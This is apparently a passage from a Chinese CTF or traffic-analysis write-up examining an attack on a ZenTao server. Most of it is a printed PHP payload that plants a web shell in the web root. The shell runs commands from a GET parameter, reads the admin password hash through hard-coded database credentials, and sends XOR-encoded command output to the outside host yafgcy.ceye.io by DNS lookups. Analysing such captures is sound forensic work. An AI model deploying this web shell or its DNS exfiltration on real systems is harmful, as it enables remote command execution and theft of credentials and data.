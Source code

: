 ```php
fileContent=<?php file_put_contents('/app/zentaopms/www/xxx1.php', 
'<?php $servername="127.0.0.1";
$username="root";
$password="123456";
$dbname="zentao";
$conn=new PDO("mysql:host=$servername;dbname=$dbname",$username,$password);
$conn->setAttribute(PDO::ATTR_ERRMODE,PDO::ERRMODE_EXCEPTION);
// 从这里可以看出后面要用的密钥是admin用户的密码
$stmt=$conn->prepare("SELECT password FROM zt_user WHERE account=\'admin\'");
$stmt->execute();
$result=$stmt->fetch(PDO::FETCH_ASSOC);
$conn=null;
$param=$_GET["cmd"];
$password=$result["password"];
$output=shell_exec($param);
$hex_output=bin2hex($output);
$hex_password=bin2hex($password);
$len_output=strlen($hex_output);
$len_password=strlen($hex_password);
$max_subdomain_length=62;
$subdomain_base="yafgcy.ceye.io";
$hex_xor="";
for ($i=0;$i<$len_output;$i++) {
	$char_output=$hex_output[$i];
	$char_password=$hex_password[$i%$len_password];
	$char_xor=dechex(hexdec($char_output)^hexdec($char_password));
	if(strlen($hex_xor.$char_xor)>$max_subdomain_length) {
		if(strlen($hex_xor)%2!=0) {
			$subdomain="0"."$hex_xor.$subdomain_base";
		} else {
			$subdomain="$hex_xor.$subdomain_base";
		}
		gethostbyname($subdomain);
		$hex_xor="";
	} else {
		$hex_xor.=$char_xor;
	}
}
// 将命令执行的结果通过 DNS log 外带
if(strlen($hex_xor)%2!=0) {
	$subdomain="0"."$hex_xor.$subdomain_base";
} else {
	$subdomain="$hex_xor.$subdomain_base";
}
gethostbyname($subdomain);
?>');?>
```

**从上面的源码中可以看到命令执行的返回结果通过 DNS log 外带了，因此我们需要关注请求包中的域名字段**

**在流2中也可以看到 admin 的密码被 SQL 注入注出来了**
